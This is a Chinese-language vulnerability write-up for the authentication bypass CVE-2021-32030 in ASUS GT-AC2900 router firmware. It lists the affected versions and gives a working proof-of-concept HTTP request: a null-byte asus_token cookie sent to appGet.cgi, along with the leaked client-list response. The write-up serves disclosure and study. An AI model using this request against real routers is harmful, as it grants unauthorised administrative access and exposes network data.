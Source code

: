 # 华硕 GT-AC2900 身份验证绕过 CVE-2021-32030

# 华硕 GT-AC2900 身份验证绕过 CVE-2021-32030

## 漏洞描述

ASUS GT-AC2900管理员应用程序在处理未经身份验证的用户的远程输入时，容易受到身份验证绕过漏洞的攻击，从而导致对管理员界面的未经授权的访问。

参考链接：

- https://github.com/atredispartners/advisories/blob/master/ATREDIS-2020-0010.md

## 漏洞影响

```
ASUS GT-AC2900韧体版本9.0.0.4.386.41994（测试版）
ASUS GT-AC2900韧体版本3.0.0.4.386.41793（最新生产）
```

## 漏洞复现

通过在auth_check添加空字符进行绕过身份验证。

poc：

```
GET /appGet.cgi?hook=get_cfg_clientlist() HTTP/1.1
Host: 192.168.1.107:8443
Content-Length: 0
User-Agent: asusrouter--
Connection: close
Referer: https://192.168.1.107:8443/
Cookie: asus_token=\0Invalid; clickedItem_tab=0

HTTP/1.0 200 OK
Server: httpd/2.0
Content-Type: application/json;charset=UTF-8
Connection: close

{
"get_cfg_clientlist":[{"alias":"24:4B:FE:64:37:10","model_name":"GT-AC2900","ui_model_name":"GT-AC2900","fwver":"3.0.0.4.386_41793-gdb31cdc","newfwver":"","ip":"192.168.50.1","mac":"24:4B:FE:64:37:10","online":"1","ap2g":"24:4B:FE:64:37:10","ap5g":"24:4B:FE:64:37:14","ap5g1":"","apdwb":"","wired_mac":[
...
...
}
```


